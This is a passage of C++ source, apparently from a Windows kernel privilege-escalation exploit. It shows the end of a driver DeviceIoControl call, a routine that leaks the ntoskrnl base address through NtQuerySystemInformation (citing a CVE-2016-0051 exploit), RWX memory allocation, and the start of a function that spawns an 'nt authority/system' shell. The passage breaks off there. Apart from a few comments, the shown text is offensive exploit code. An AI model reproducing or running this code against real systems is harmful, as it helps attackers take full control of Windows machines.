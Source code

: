 ```cpp
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {
        cout << "[!] DeviceIoControl failed!" << endl;
    }
}

INT64 get_kernel_base() {

    cout << "[>] Getting kernel base address..." << endl;

    //https://github.com/koczkatamas/CVE-2016-0051/blob/master/EoP/Shellcode/Shellcode.cpp
    //also using the same import technique that @tekwizz123 showed us

    PNtQuerySystemInformation NtQuerySystemInformation =
        (PNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"),
            "NtQuerySystemInformation");

    if (!NtQuerySystemInformation) {

        cout << "[!] Failed to get the address of NtQuerySystemInformation." << endl;
        cout << "[!] Last error " << GetLastError() << endl;
        exit(1);
    }

    ULONG len = 0;
    NtQuerySystemInformation(SystemModuleInformation,
        NULL,
        0,
        &len);

    PSYSTEM_MODULE_INFORMATION pModuleInfo = (PSYSTEM_MODULE_INFORMATION)
        VirtualAlloc(NULL,
            len,
            MEM_RESERVE | MEM_COMMIT,
            PAGE_EXECUTE_READWRITE);

    NTSTATUS status = NtQuerySystemInformation(SystemModuleInformation,
        pModuleInfo,
        len,
        &len);

    if (status != (NTSTATUS)0x0) {
        cout << "[!] NtQuerySystemInformation failed!" << endl;
        exit(1);
    }

    PVOID kernelImageBase = pModuleInfo->Modules[0].ImageBaseAddress;

    cout << "[>] ntoskrnl.exe base address: 0x" << hex << kernelImageBase << endl;

    return (INT64)kernelImageBase;
}

void spawn_shell() {

    cout << "[>] Spawning nt authority/system shell..." << endl;

    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));
```